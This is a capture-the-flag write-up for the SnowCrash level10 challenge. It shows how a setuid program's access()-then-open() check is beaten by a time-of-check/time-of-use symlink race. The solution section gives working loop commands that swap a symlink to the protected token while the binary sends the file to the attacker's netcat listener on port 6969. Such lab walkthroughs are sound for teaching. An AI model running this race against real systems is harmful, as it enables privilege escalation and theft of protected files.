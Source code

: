 # Research 

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

```bash
level10@SnowCrash:~$ strings level10
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```
The progam seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with `level10` program on a host, listen to the host's `6969` port and read the token once `level10` write it.

How do we do that?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html


So we can start to execute level10 with token on our IP address: `./level10 token 10.12.0.0` but it does not work as we don't have access to token. </br>
Let's do a symlink on token: `ln -s /home/user/level10/token /tmp/final` and try `./level10 /tmp/final 10.12.0.0` -> It does not work as we don't have access to /tmp/final.</br>

`strings level10` shows that level10 does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

So we can do the symlink again and again, hoping that level10 will accept our file with access, then the symlink will occure, then level10 will open our modified file. 

# Solution

Level10 seems to be able to sends any file we create so let's do on a first terminal connected with ssh: `while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done` to create the file that is going to be the symlink. (`readlink -f token` to know the true path of token file). We need to suppress and create a new file each time or the symlink will apply on tmp/final and will not pass the access() check again.

On a second ssh terminal let's do: `while true; do (./level10 /tmp/final 10.11.200.134); done` to execute level10 in a loop.

On a third terminal, we can listen to the port 6969 with the netcat command: `while true; do nc -l 6969 ;done`
